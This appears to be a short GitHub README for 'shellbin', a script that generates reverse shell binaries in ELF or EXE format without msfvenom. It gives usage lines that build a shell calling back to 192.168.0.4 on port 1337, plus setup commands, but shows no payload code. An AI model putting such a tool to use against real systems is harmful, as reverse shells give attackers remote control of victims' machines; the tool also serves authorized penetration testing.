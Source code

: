 # shellbin
Auto Reverse Shell Binary Generator

if you can't use msfvenom, maybe this script is so usefuly.

they can generate as elf or exe format with out msfvenom

Usage:

     shellbin <lhost> <lport> <format>

Example:

     ./shellbin 192.168.0.4 1337 exe
     ./shellbin 192.168.0.4 1337 elf

SetUp:
  
     if root user      :  python3 setup.py
     if not a root user:  sudo python3 setup.py


Auto generate as "shell.c" "shell.cpp" and "shell.elf" "shell.exe"
So becareful to current files name on working directory 
